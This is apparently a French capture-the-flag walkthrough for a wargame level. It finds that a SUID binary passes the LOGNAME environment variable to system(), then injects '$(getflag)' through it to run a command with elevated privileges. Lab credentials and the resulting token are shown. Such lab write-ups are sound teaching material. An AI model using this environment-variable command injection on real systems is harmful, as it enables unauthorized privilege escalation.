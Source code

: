 # Level07

Connectez-vous en tant que `level07`.

    $ ssh 192.168.1.124 -p 4242 -l level07
    level07@192.168.1.124's password: wiok45aaoguiboiki2tuin6ub
    
 ---

Un exécutable `SUID` se trouve dans le répertoire personnel.

        $ ls -l
        12 au total
        -rwsr-sr-x 1 flag07 level07 8805 5 mars 2016 level07

Semble imprimer le nom de l'exécutable `argv[0]` ?

        $ ./level07
        level07

Utilisez `ltrace` pour intercepter les appels de bibliothèque dynamiques et les appels système exécutés par le programme.

```gdb
$ ltrace ./level07
__libc_start_main(0x8048514, 1, 0xbffff7a4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                 = 2007
geteuid()                                                 = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)       = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)       = 0
getenv("LOGNAME")                                         = "level07"
asprintf(0xbffff6f4, 0x8048688, 0xbfffff24, 0xb7e5ee55, 0xb7fed280) = 18
system("/bin/echo level07 "level07
<unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                    = 0
+++ exited (status 0) +++
```

Les programmes appellent `getenv()` qui parcourt la liste d'environnements pour trouver la variable d'environnement `LOGNAME`.

Modifiez la variable d'environnement `LOGNAME` avec la substitution de commande en échappant les backticks si vous l'utilisez avec des guillemets doubles.

        $ export LOGNAME='$(getflag)'
        $ ./level07

Check flag.Here is your token: fiumuikeil55xe9cu4dood66h
